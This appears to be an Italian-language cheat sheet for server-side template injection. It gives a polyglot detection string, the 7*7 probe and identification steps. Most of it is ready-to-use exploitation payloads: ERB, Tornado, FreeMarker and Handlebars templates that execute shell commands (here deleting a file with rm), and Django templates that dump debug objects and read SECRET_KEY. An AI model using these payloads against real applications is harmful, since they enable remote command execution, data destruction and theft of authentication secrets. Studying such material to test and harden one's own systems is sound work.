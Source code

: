 # Caratteri di verifica:
```
${{<%[%'"}}%\
```

# Detection
* Usare i simboli base per vedere se qualcuno causa qualche effetto indisiderato (come rendere invisibile una parte di testo);
* Inserire fra l'apertura e la chiusura 7*7. Se viene stampato 49 allora è responsive e vulnerabile;

# Identification
* Causare uno stacktrace per leggere il nome del template engine usato (inserendo banalmente una variabile insistente, come: ${my_var});
* Trovare qualche informazione nel codice sorgente;
* Leggere la documentazione del template rilevato.

# Exploitation
(ricordati di codificare i payload in URL syntax)
## ERB
```
<%= system("rm /path/to/file.txt") %>
```

## Tornado
```
{% import os %}
{{os.system('rm /path/to/file.txt')
```

## FreeMarker
```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /path/to/file.txt") }
```

## Handlebars
```
{{this}}
```
Vulnerabile se ritorna:
```
[Object object]
```


- Oppure

```
Ciao, funziona!{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('rm /path/to/file.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

## Django
* Per mostrare tutti gli oggetti:
```
{% debug %}
```
* Per interagire con essi:
```
(Es. SECRET_KEY: valore segreto che potrebbe contenere chiavi autenticative)
{{settings.SECRET_KEY}}
```
